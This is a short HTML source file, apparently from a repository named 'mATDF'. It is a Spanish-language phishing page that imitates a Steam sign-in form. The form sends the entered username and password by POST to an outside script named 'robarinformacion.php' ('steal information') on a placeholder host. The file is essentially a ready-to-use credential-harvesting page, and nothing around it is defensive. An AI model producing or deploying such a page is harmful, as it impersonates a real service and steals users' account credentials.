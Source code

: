 # mATDF
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Inicio de Sesión de Steam</title>
</head>
<body>
<h2>Iniciar Sesión en Steam</h2>
<form action="http://tusitio.com/robarinformacion.php" method="POST">
  <label for="username">Nombre de Usuario:</label><br>
  <input type="text" id="username" name="username"><br>
  <label for="password">Contraseña:</label><br>
  <input type="password" id="password" name="password"><br><br>
  <input type="submit" value="Iniciar Sesión">
</form>
</body>
</html>
